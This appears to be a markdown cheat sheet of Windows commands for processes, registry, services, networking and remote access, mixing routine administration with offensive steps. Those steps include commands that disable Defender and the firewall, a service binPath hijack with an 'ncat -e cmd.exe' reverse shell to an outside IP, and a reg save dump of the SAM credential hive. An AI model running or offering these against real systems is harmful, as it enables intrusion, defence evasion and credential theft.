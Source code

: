 # Basic Windows 

- https://learn.microsoft.com/en-us/sysinternals/
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands
## Processes

```
tasklist /?
tasklist /fi (username eq myuser) /v /fo table | find "cmd"
tasklist /fo csv

taskkill /pid somepid

wmic process where (ProcessId=<processID>) get Caption,ProcessId,ParentProcessID

pslist /?
pslist -d
pslist -t

pskill
pssuspend
```

## Programs

```
listdlls
listdlls -u # unsigned

set PATH=%PATH%;C:\Users\myuser\Downloads\SysinternalsSuite

dir /s *somefile*
```

### Registry

```
reg /?
reg query hkcu\software\microsoft\windows\currentversion\runonce
reg query hkcu\software\microsoft\windows\currentversion\run
reg delete
reg add hkcu\software\myregistrydirectory /v mykey /t myvaluetype /d myvalue
reg query hklm\path\to\key
reg export hkxx\path\to\key keyfilename

schtasks /?
schtasks /create /tn mytask /sc onstart # on reboot
schtasks /run /i /tn mytast # force run

fsutil
fsutil fsinfo
fsutil fsinfo drives
fsutil fsinfo drivetype c:
fsutil fsinfo volumeinfo c:

systeminternalsuite\du -accepteula c:

dir /r
sysinternalsuite\stream.exe -accepteula

c:\Windows\System32\conhost.exe
```

## System

```
systeminfo /s somehost /u someuser\somedomain /p somepass

set
setx
setx varsystemwide "someprg.exe" /m
```

## Networking

```
ipconfig /all
ipconfig /renew "myadapter"

netstat -ano
arp -s
route print
ping -n
tracert
pathping
```

### Shares

```
nbtstat /n # netBios ports 135, 138, 139
nslookup

net share
net share mysharename=c:\my\share\dir
net use
net use f: \\hostnameorip\dir /user:someuser /persistent:no
```

### Remote connexions

```
nc -s ipaddr -l -n -v -p portnum # listener
nc ipaddr portnum # open connection
socat

psexec -i \\remotecomputer cmd /c "somecommandtorunontheremote"
psexec -i \\remotecomputer -s cmd /c "somecommandtorunontheremote" # system privileges
psexec -i \\remotepc -u user -p pass cmd # interactive connexion
```

## Firewall

### Profiles

```
netsh advfirewall show allprofiles
netsh advfirewall set ?
netsh advfirewall add rule ?
```

### Deactivate 

In PowerShell:
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIDAVProtection $true
netsh advfirewall set allprofiles state off
```

## Services

```
sc start WSearch

tasklist /svc # list all services
sc query someservice # query one
sc qc someservice
PsService.exe query WSearch
PsService.exe config WSearch
net stop WSearch
net start WSearch
sc config WSearch start=auto
psservice config WSearch

psservice setconfig someservice auto
sc config someservice binPath="c:\hacked\binary.exe" # "ncat.exe 192.168.1.1 4444 -e cmd.exe"
```

## LDAP

```
Get-ADObject -LDAPFilter '(&(objectClass=organizationalUnit)(!(OU=Domain Controllers)))'
```

## AD

```
reg save HKLM\sam c:\temp\samfile
```
